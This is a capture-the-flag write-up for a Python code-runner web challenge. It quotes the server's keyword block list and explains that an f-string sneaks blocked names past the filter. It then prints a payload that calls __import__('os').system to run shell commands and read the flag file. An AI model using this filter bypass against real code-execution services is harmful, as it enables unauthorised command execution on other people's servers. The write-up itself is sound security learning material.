 # Challenge:

Code đi bạn ơi ;)

FLAG Format: EHC{XXX}

# Solution:

After download and read the challenge file (The only file `run.py`), I understand that this website allow you to upload file and after upload complete, the server will auto execute the code:
```
if tested[0]:
        res = ''
        try:
            ps = subprocess.run(['python', fname], timeout=5,
                                capture_output=True, text=True)
            res = ps.stdout
        except:
            res = 'code timout'
        return render_template('submit.html', code=code_to_test.split('\n'), text=res.strip().split('\n'))
    else:
        return render_template('submit.html', code=code_to_test.split('\n'), text=[tested[1]])
```
But before the code can be executed, the server have filtering our code:
```
tested = test_code(code_to_test)  #Line 32

def test_for_invalid(code):
    if len(code) > 1000:
        return True
    try:
        parse(code)
    except:
        return True
    return False

blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec",
           "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys",
           "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]

blocked_regex = re.compile(fr'({"|".join(blocked)})(?![a-zA-Z0-9_])')


def test_for_disallowed(code):
    code = clean_comments_and_strings(code)
    return blocked_regex.search(code) is not None


def test_code(code):
    if test_for_non_ascii(code):
        return (False, 'found a non-ascii character')
    elif test_for_invalid(code):
        return (False, 'code too long or not parseable')
    elif test_for_imports(code):
        return (False, 'found an import')
    elif test_for_disallowed(code):
        return (False, 'found an invalid keyword')
    return (True, '')
```

See the filter we know that we only can upload code with ascii, under 1000 words and not contain the word in `blocked`. But the blocked list can block all things??

After testing some function, i realize that if the blocked word in s string, it not block any more. So a have an idea of using a very cool function of python. The `f-string`.

That idea lead me to this: `f'{__import__('os')}'. Which can import the mighty os function and i can do many things from now. Start this payload to see the current file:
```
print(f'{__import__("os").system("ls -la")}')
```

![image](https://github.com/Katsumi1012/CTF/assets/90083485/8dff413f-55df-400f-bdfb-5c78f57a9fbd)

Notthing seem interesting here so cd out side to see

![image](https://github.com/Katsumi1012/CTF/assets/90083485/7199cd74-95bb-4b92-8e16-1ba1936f8b3c)

Oh we saw file call `flag.txt` lets get in there and see the flag 🚩

![1st](https://github.com/Katsumi1012/CTF/assets/90083485/ecc17393-63a8-480b-8666-28bd4df150d7)


# ENJOY 🤡

